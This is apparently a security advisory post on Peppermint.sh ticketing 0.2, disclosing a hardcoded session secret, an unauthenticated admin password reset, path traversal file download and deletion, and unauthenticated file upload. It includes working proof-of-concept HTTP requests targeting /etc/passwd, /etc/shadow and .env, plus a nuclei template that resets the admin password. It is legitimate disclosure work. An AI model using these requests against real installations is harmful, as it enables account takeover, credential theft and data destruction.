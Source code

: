 ```yaml
---
title: "Peppermint.sh - A damn vulnerable ticketing system"
date: 2023-09-04
draft: false
authors: ["blockomat"]
tags: ["advisory"]
description: "Peppermint.sh - A damn vulnerable ticketing system"
---
```


This post contains some of the findings found in the Peppermint.sh ticket application.
All vulnerabilities were tested on the official latest docker version (which is 0.2 at the time of writing).


## Hardcoded Secrets - CVE-2023-42328

The application users `next-auth` with encrypted JWT session cookies.
The *secret* is [hardcoded](https://github.com/Peppermint-Lab/peppermint/blob/446a20b870bc68157eaafcb7275c289d76bfb29e/apps/client/pages/api/auth/%5B...nextauth%5D.js#L65)
which allows any user to encrypt and decrypt the data.
The use of a static secret across multiple instances allows any user to use their session on other instances too.

A decrypted token looks like this:
```json
{"name": "admin", "email": "admin@admin.com", "sub": "1", "user": {"email": "admin@admin.com", "id": 1, "name": "admin", "isAdmin": true}, "iat": 1693732494, "exp": 1996324494, "jti": "d3813576-cce6-4fbd-b496-7b2bb549c941"}
```

The token contains the default admin user data.
Using a session cookie from a local instance allowed to log into any instance, which has the default admin configured.

## Account Takeover
The `/api/v1/users/all` endpoint, lists all available users to unauthenticated visitors.
The data may look like the one below:

```json
{
  "users": [
    {
      "email": "admin@admin.com",
      "name": "admin",
      "id": 1,
      "isAdmin": true
    },
    {
      "email": "test@example.com",
      "name": "testuser",
      "id": 34,
      "isAdmin": false
    }
  ],
  "failed": false
}
```

As shown below, the `id` and `isAdmin` key is included, which
shows us which user is a high privileged user.

The password reset function uses the `id` parameter to specify the user 
of which the password should be changed.

```http
POST /api/v1/users/resetpassword HTTP/1.1
Host: localhost:5000
[...]

{"password":"asdf","id":1}
```

The request above, changes the password of the default admin user.

This can be done using a simple *nuclei* template

```yaml
id: peppermint-unauth-password-reset
info:
  name: Peppermint Unauthenticated Password Reset
  author: unknown
  severity: critical
  description: Reset the admin password without being authenticated
  tags: unsafe,http,peppermint-ticket

http:
  - raw:
    - |
      POST /api/v1/users/resetpassword HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/json

      {"password":"peppermintinsecure", "id":1}

    matchers:
      - type: word
        condition: and
        words:
          - "message"
          - "password updated success"
```

*This bug was reported here: [https://github.com/Peppermint-Lab/peppermint/issues/105](https://github.com/Peppermint-Lab/peppermint/issues/105)*


## Arbitrary File Download
The attachments of a ticket can be downloaded, without authentication. However, the endpoint is also vulnerable to Path Traversal.
This allows any unauthenticated attacker to download arbitrary files from the server.

```http
POST /api/v1/ticket/1/file/download?filepath=/etc/passwd HTTP/1.1
Host: localhost:5000
[...]
```

The response contains the content of the `/etc/passwd` file.
Since the default docker installation runs as root, you can also download the `/etc/shadow` file.

You may also try to download the `.env` file (`filepath=.env`) from the web root. This file contains the database password.

*This issue was reported here: [https://github.com/Peppermint-Lab/peppermint/issues/108](https://github.com/Peppermint-Lab/peppermint/issues/108). it should be noted, that even if the issue was closed, the issue was still reproducable in the latest docker image (date: 2023-09-04).*

## Unauthenticated Arbitrary File Upload and Path Traversal
Any unauthenticated user can create new tickets. In the UI, this endpoint is only accessible after authentication.
However, the request can be done without authentication. A ticket can have attachments but the filename is vulnerable to a Path Traversal.
This allows any unauthenticated attacker to receive a RCE by uploading malicious files to the server.

This also allows stored XSS vulnerabilities, since you can upload SVG or HTML files.

*This bug was reported here: https://github.com/Peppermint-Lab/peppermint/issues/107*

## Arbitrary File Deletion
The API allows any user to delete attachments of tickets. The `path` parameter is vulnerable to a Path Traversal which allows any user to delete arbitrary files from the server.

```http
DELETE /api/v1/ticket/1/file/delete HTTP/1.1
Host: localhost:5000
[...]

{"id":1,"path":"/etc/shadow"}
```

Since the application runs under root by default, it is possible to delete the `/etc/shadow` file.

*This issue was reported here: [https://github.com/Peppermint-Lab/peppermint/issues/106](https://github.com/Peppermint-Lab/peppermint/issues/106). it should be noted, that even if the issue was closed, the issue was still reproducable in the latest docker image (date: 2023-09-04).*
